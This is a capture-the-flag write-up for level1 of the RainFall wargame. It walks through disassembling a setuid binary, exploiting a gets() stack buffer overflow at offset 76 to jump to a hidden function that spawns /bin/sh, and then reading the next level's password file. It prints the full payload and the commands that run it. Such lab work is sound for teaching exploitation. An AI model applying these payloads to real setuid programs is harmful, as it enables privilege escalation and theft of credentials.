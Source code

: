 ```sh
level1@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
level1@RainFall:~$ ./level1
42
level1@RainFall:~$ ./level1 42
42
level1@RainFall:~$ 
```
There is one excutable file **level1**, it works like cat, take standard input and shutting down program. \
\
Run the binary file with GDB.
```sh
(gdb) info functions
All defined functions:
Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
...
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
...
```
```sh
(gdb) disas main
   Dump of assembler code for function main:
   0x08048480 <+0>:        push      %ebp
   0x08048481 <+1>:        mov       %esp,%ebp
   0x08048483 <+3>:        and       $0xfffffff0,%esp
   0x08048486 <+6>:        sub       $0x50,%esp
   0x08048489 <+9>:        lea       0x10(%esp),%eax
   0x0804848d <+13>:       mov       %eax,(%esp)
   0x08048490 <+16>:       call      0x8048340 <gets@plt>
   0x08048495 <+21>:       leave  
   0x08048496 <+22>:       ret   
End of assembler dump.
```
We can see one function name of run() with ```info functions```, but in the main function there is no trigger to jump in run function. what is in there?
```sh
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x80497c0,%eax
   0x0804844f <+11>:    mov    %eax,%edx
   0x08048451 <+13>:    mov    $0x8048570,%eax
   0x08048456 <+18>:    mov    %edx,0xc(%esp)
   0x0804845a <+22>:    movl   $0x13,0x8(%esp)
   0x08048462 <+30>:    movl   $0x1,0x4(%esp)
   0x0804846a <+38>:    mov    %eax,(%esp)
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    movl   $0x8048584,(%esp)
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave  
   0x0804847f <+59>:    ret    
```
Ohh.. in the run+53, there is a system call, so we should run ```run()``` function? \
We can check what is in there.
```sh
(gdb) x/s 0x8048584
0x8048584:       "/bin/sh"
```
INTERESTING! \
So we need run the function which is not called, but how?

The hint is in ```gets()``` function, which has ```buffer overflow``` vulnerability because it never specifies the read buffer size.

Since we know that we can use ```buffer overflow```, we can try to find exact location where to insert address of ```run()``` function to call it. \
For this, we wrote python script to find easier location of buffer overflow,
```sh
python level1/Ressources/helper.py
=== Buffer Overflow Pattern Generator & Offset Finder ===
Enter the length of the pattern to generate: 100
Generated pattern (100 bytes):
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2a
...
```
```sh
level1@RainFall:~$ python -c 'print "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac"' > /tmp/exploit1
level1@RainFall:~$ gdb level1
(gdb) r < /tmp/exploit1
Starting program: /home/user/level1/level1 < /tmp/exploit1

Program received signal SIGSEGV, Segmentation fault.
0x63613563 in ?? ()
```
We can find weird address at the moment of segmentation fault, ```0x63613563```, this mean the EIP register is corrupted by buffer. \
The linux system save the data in the lowest byte order, which is called **Little Endian**. So we have to read that address in reverse, ```0x63```, ```0x35```, ```0x61```, ```0x63``` which is "c5ac" in ASCII. \
In the python script, we can find easily the exact offset location of string,
```sh
Enter the value to find (e.g., 'aa1aa2'): c5ac
'c5ac' found at offset: 76
```
So from offset 76, everything that comes after will be counted as ```buffer overflow```. \
After, simply, we just have to put the address ```run()``` function, after 76 offset in the reverse order.
```sh
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp
```
in this case also, we need convert the address by little endian form,
```...ac4a\x44\x84\x04\x08```
```sh
level1@RainFall:~$ python -c 'print "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4a\x44\x84\x04\x08"' > /tmp/exploit1
level1@RainFall:~$ cat /tmp/exploit1 - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass            
(hidden)
```
level1 passed!

